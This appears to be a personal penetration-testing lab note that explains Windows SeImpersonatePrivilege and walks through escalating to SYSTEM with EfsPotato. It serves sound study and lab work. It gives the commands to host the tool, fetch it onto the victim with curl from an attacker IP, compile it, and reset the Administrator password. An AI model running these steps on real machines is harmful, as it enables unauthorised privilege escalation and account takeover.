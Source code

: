 `SeImpersonatePrivilege` is a **Windows security privilege** that allows a process to **impersonate another user's access token** after the user has authenticated.

In simple terms:

- If a process has this privilege, it can **act on behalf of another user** on the system.
- This is critical because it can be abused to **escalate privileges** (for example, from a normal user to `SYSTEM`) when combined with token-stealing techniques or Potato-family attacks (Juicy Potato, PrintSpoofer, RoguePotato, etc.).

### Technical details:

- Internal name: `SeImpersonatePrivilege`
- It's granted by default to services and applications that need to act on behalf of other users (for example, IIS, SQL Server, etc.).
- It appears in `whoami /priv` if you have it enabled.

### Typical exploitation flow

1. The attacker gains access with a low-privilege user.
2. They discover they have the `SeImpersonatePrivilege`.
3. They use techniques like [**_PrintSpoofer_**](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/) or  [**_SweetPotato_**](https://github.com/CCob/SweetPotato) to execute commands as `NT AUTHORITY\SYSTEM`.

### EfsPotato

#Attacking_machine
- Download from https://github.com/zcgonvh/EfsPotato  the file `EfsPotato.cs`.

- Open a python HTTP server in the folder you have the files.
```
python3 -m http.server 445
```


#Powershell_terminal 
From  [[RCE#Getting a reverse shell]] you have to get a shell as user `merlin`.

- Run the following code to download the files to the user's desktop.

```
c:\Users\merlin\Desktop>curl http://<ATTACKING MACHINE IP>:445/EfsPotato.cs -o ef.cs
```

- Compile the file `ef.cs`.

```
C:\Windows\Microsoft.Net\Framework\v3.5\csc.exe ef.cs -nowarn:1691,618
```


### Getting  Administrator's privileges

- Run the file `ef.exe`.

```
.\ef whoami
```

![[Screenshot from 2025-09-18 12-05-24.png]]

- Change Adminstrator's password.

```
ef "cmd /C net user administrator Password123#
```

![[Screenshot from 2025-09-18 12-11-51.png]]

**Next step:** [[RDP]]

